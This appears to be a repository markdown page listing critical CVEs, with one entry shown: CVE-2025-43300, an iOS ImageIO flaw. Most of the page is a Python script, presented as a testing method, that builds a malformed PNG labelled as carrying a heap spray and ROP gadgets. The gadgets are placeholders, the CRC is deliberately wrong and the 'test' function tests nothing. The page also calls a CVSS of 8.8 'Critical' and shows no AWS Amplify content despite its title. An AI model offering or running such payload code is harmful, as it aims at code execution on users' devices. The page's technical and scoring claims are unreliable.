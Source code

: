 # Critical CVEs for iOS & AWS Amplify (2024-2025)

## CVE-2025-43300 - iOS ImageIO Zero-Day RCE
**CVSS Score:** 8.8 (Critical)  
**Affected:** iOS < 18.0.1, iPadOS < 18.0.1, macOS < 15.0.1  
**Exploitation:** Active exploitation in the wild (August 2025)

### Description
Out-of-bounds write vulnerability in ImageIO framework leading to arbitrary code execution when processing malicious image files. This is a zero-click exploit requiring no user interaction.

### Attack Vector
- Malicious image delivered via iMessage, Mail, or web content
- No user interaction required (zero-click)
- Can be triggered through SwiftUI Image() views

### Testing Methodology
```python
# cve_2025_43300_test.py
import struct
import sys

def create_malicious_image():
    """Generate malformed image to trigger ImageIO overflow"""
    
    # PNG header with malformed chunks
    png_header = b'\x89PNG\r\n\x1a\n'
    
    # Crafted IHDR chunk with overflow values
    ihdr_chunk = b'IHDR'
    ihdr_data = struct.pack('>II', 0xFFFFFFFF, 0xFFFFFFFF)  # Width/Height overflow
    ihdr_data += b'\x08\x06\x00\x00\x00'  # Bit depth, color type, etc.
    
    # Calculate CRC (intentionally incorrect to trigger parsing errors)
    ihdr_crc = struct.pack('>I', 0xDEADBEEF)
    
    # Malformed tEXt chunk for heap spray
    text_chunk = b'tEXt'
    text_data = b'A' * 0x1000  # Heap spray pattern
    text_data += struct.pack('<Q', 0x4141414141414141) * 100  # ROP gadgets
    
    malicious_png = png_header
    malicious_png += struct.pack('>I', len(ihdr_data)) + ihdr_chunk + ihdr_data + ihdr_crc
    malicious_png += struct.pack('>I', len(text_data)) + text_chunk + text_data
    malicious_png += b'\x00\x00\x00\x00IEND\xae\x42\x60\x82'  # End chunk
    
    return malicious_png

def test_app_vulnerability(app_bundle_id):
    """Test if app is vulnerable to CVE-2025-43300"""
    
    print(f"[*] Testing {app_bundle_id} for CVE-2025-43300")
    
    # Generate payload
    payload = create_malicious_image()
    
    # Save test file
    with open('test_cve_2025_43300.png', 'wb') as f:
        f.write(payload)
    
    print("[+] Malicious image created: test_cve_2025_43300.png")
```